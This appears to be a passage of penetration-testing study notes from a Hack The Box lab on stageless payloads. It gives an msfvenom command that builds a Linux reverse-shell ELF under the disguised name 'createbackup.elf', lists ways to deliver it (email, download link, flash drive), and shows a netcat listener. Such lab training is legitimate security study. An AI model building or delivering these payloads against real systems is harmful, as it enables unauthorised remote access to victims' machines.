 `Stageless` payloads do not have a stage. this payload will be sent in its entirety across a network connection without a stage. This could benefit us in environments where we do not have access to much bandwidth and latency can interfere.

#### Building stageless payload&#x20;

```shell-session
ElFelixi0@htb[/htb]$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```

`-f elf` is to specify the format the file will be in

To execute our stageless payload there are numerous ways to deliver the payload to target ->

* Email message with the file attached.
* Download link on a website.
* Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
* Via flash drive as part of an onsite penetration test.

Then we would set up a listener ->

```shell-session
ElFelixi0@htb[/htb]$ sudo nc -lvnp 443
```

And wait for our target to trigger the file we juste sent ->

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

